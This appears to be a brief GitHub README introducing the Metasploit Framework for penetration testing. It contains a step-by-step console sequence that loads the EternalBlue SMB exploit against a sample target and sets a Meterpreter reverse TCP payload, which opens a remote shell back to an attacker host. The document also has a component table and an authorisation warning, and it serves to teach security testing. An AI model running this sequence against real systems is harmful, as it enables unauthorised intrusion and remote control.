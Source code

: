 # What is Metasploit and How to Use It?

## 💣 What is Metasploit?

**Metasploit Framework** is a powerful, open-source security testing tool used by cybersecurity professionals and penetration testers.

The main purposes of Metasploit are:

- Identifying vulnerabilities  
- Conducting penetration tests on target systems  
- Running exploit modules  
- Delivering payloads and managing sessions

Metasploit is designed for both offensive and defensive security teams to test and evaluate system security.

---

## 🧰 How to Use Metasploit?

### 1. Launch Metasploit
```bash
msfconsole
```

### 2. Select an Exploit
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

### 3. Set Target Information
```bash
set RHOSTS 192.168.1.10
```

### 4. Set Payload
```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.5
```

### 5. Launch the Exploit
```bash
exploit
```

---

## 🧪 Key Components of Metasploit

| Component       | Description |
|------------------|-------------|
| **Exploit**      | A module that targets a specific vulnerability |
| **Payload**      | The code delivered to the target after successful exploitation |
| **Meterpreter**  | An interactive shell on the target system |
| **Auxiliary**    | Scanners, info-gathering tools, and DoS modules |
| **Post**         | Post-exploitation modules for analysis and persistence |

## 📌 Use Cases

- Red Team / Penetration testing operations  
- Cybersecurity labs and training environments  
- Vulnerability assessments and OSINT  
- Increasing security awareness and readiness

## ⚠️ Warning

Metasploit should **only be used in authorized test environments**. Using it against systems without permission is **illegal** and can lead to serious consequences.
